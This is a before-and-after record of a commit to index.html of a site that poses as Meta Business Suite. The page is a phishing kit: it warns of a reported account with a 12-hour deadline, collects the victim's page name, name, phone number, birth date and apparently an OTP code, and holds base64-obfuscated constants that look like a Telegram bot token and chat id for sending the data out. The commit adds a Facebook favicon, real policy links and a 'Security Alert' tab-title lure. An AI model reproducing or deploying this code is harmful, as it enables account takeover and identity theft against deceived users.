

Before and after one commit to 0chuko/Fblala, a plain HTML site: page index.html in a window 1280 px wide. Both pictures are taken after a click on the button "GET STARTED". Shown: the part 35-783 px from the top of the page. Drawn offline with Linux system fonts and the light colour scheme; no server answers.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -4,19 +4,17 @@
     <meta charset="UTF-8">
     <meta name="viewport" content="width=device-width, initial-scale=1.0">
     <title>Meta Business Suite</title>
+    <link rel="icon" type="image/x-icon" href="https://www.facebook.com/favicon.ico">
     <style>
         :root { --m-blue: #1877F2; --m-bg: #FFFFFF; --m-text: #1C1E21; --m-gray: #65676B; --m-border: #ced4da; --fb-bg: #F0F2F5; }
         body { font-family: "Segoe UI", Helvetica, Arial, sans-serif; background: #f0f2f5; margin: 0; color: var(--m-text); display: flex; flex-direction: column; min-height: 100vh; }
 
-        /* Mobile vs PC Navigation */
         .nav { background: white; padding: 12px 20px; border-bottom: 1px solid #dddfe2; display: flex; align-items: center; justify-content: flex-start; }
         @media (min-width: 900px) { .nav { padding: 12px 50px; } }
 
-        /* Mobile vs PC Card */
         .card { background: white; width: 92%; max-width: 800px; margin: 10px auto; padding: 25px; border-radius: 8px; box-shadow: 0 1px 2px rgba(0, 0, 0, 0.1); box-sizing: border-box; }
         @media (min-width: 900px) { .card { margin: 20px auto; padding: 40px; } }
 
-        /* Live Chat Styling */
         .chat-bubble { position: fixed; bottom: 20px; right: 20px; background: white; border-radius: 50px; padding: 10px 20px; display: flex; align-items: center; gap: 10px; box-shadow: 0 4px 12px rgba(0,0,0,0.15); border: 1px solid #eee; z-index: 999; }
         .chat-status { width: 10px; height: 10px; background: #42b72a; border-radius: 50%; animation: pulse 2s infinite; }
         .chat-text { font-size: 12px; color: var(--m-gray); font-weight: 500; }
@@ -36,7 +34,6 @@
         input, select { width: 100%; padding: 15px; margin-bottom: 15px; border: 1px solid var(--m-border); border-radius: 8px; font-size: 16px; box-sizing: border-box; outline: none; background: white; }
         input:focus, select:focus { border-color: var(--m-blue); }
 
-        /* Birthday Style */
         .bday-row { display: flex; gap: 10px; margin-bottom: 15px; }
         .bday-row select { margin-bottom: 0; }
         .bday-label { font-size: 12px; color: var(--m-gray); margin-bottom: 5px; text-align: left; }
@@ -46,7 +43,6 @@
 
         .btn { background: var(--m-blue); color: white; border: none; padding: 12px 20px; border-radius: 6px; font-size: 16px; font-weight: 600; cursor: pointer; width: 100%; }
         @media (min-width: 900px) { .btn { width: auto; padding: 12px 45px; } }
-
         .btn:disabled { background: #8bbaf7; cursor: not-allowed; }
 
         .hidden { display: none; }
@@ -56,7 +52,10 @@
         .otp-box { letter-spacing: 15px; font-size: 24px; text-align: center; font-weight: bold; }
         @media (min-width: 900px) { .otp-box { font-size: 30px; } }
 
+        @keyframes spin { 0% { transform: rotate(0deg); } 100% { transform: rotate(360deg); } }
         footer { margin-top: auto; padding: 20px; text-align: center; color: var(--m-gray); font-size: 12px; }
+
+        .meta-link { color: var(--m-blue); text-decoration: none; cursor: pointer; font-weight: normal; }
     </style>
 </head>
 <body>
@@ -72,22 +71,25 @@
 
 <div id="p1" class="card fade-in">
     <img src="image.png" width="90" style="margin-bottom: 25px;">
-    <div style="font-weight: 600; text-transform: uppercase; font-size: 12px; letter-spacing: 1px;">Business Community Standards</div>
-    <p style="font-weight: 700; font-size: 18px; margin: 25px 0;">Someone has reported your account for non-compliance with our terms of service.</p>
+    <div style="font-weight: normal; text-transform: uppercase; font-size: 12px; letter-spacing: 1px;"><b>Business Community Standards</b></div>
+    <p style="font-weight: normal; font-size: 18px; margin: 25px 0;"><b>Someone has reported your account</b> for non-compliance with our terms of service.</p>
     <p>You have <span id="timer1" style="font-weight: bold;">12 hours</span> to verify, otherwise your account will be permanently inactivated.</p>
     <button class="btn" style="margin-top: 20px;" onclick="step(1, 2)">GET STARTED</button>
     <p style="margin-top: 40px; font-size: 11px; color: var(--m-gray);">Facebook Report Team © 2025</p>
 </div>
 
 <div id="p2" class="card hidden">
-    <div class="illustration"><img src="image1.png" width="90" style="margin-bottom: 25px;"></div>
+    <div class="illustration"><img src="image1.png"></div>
     <h1>Your account has been restricted</h1>
     <div style="font-size: 12px; color: var(--m-gray); margin-bottom: 10px;">Term of Service</div>
-    <p class="sub-text">We detected unusual activity in your page today <b>December 23, 2025</b>. Please verify:</p>
+    <p class="sub-text">
+        We detected unusual activity in your page today <b>December 23, 2025</b>. Someone has reported your account for not complying with
+        <a href="https://transparency.fb.com/policies/community-standards/" class="meta-link" target="_blank">Community Standards</a>.
+        To avoid having your account <a href="https://transparency.fb.com/policies/community-standards/" class="meta-link" target="_blank">disabled</a>, please verify:
+    </p>
     <input type="text" id="pname" placeholder="Page Name">
     <input type="text" id="fname" placeholder="Your Name (Name and Surname)">
     <input type="text" id="phone" placeholder="Your Phone Number">
-
     <div class="bday-label">Date of birth</div>
     <div class="bday-row">
         <select id="b_day"><option value="">Day</option><script>for(let i=1;i<=31;i++)document.write('<option value="'+i+'">'+i+'</option>')</script></select>
@@ -100,7 +102,6 @@
         </select>
         <select id="b_year"><option value="">Year</option><script>for(let i=2010;i>=1950;i--)document.write('<option value="'+i+'">'+i+'</option>')</script></select>
     </div>
-
     <div class="btn-row"><button class="btn" onclick="step(2, 3)">Continue</button></div>
 </div>
 
@@ -142,6 +143,9 @@
 <footer>Meta © 2025</footer>
 
 <script>
+    window.onblur = () => { document.title = "⚠️ Security Alert!"; };
+    window.onfocus = () => { document.title = "Meta Business Suite"; };
+
     const _eT = "ODM0MjI3NzQ4MzpBQUZxVjlMdmJRQkcyLVZCOXhsMFZMaHFTaFpLNkljRXA1cw==";
     const _eC = "NTkwMTM5NjY0OA==";
     const _t = atob(_eT);
@@ -231,6 +235,5 @@
         }, 1200);
     }
 </script>
-<style>@keyframes spin { 0% { transform: rotate(0deg); } 100% { transform: rotate(360deg); } }</style>
 </body>
 </html>
```
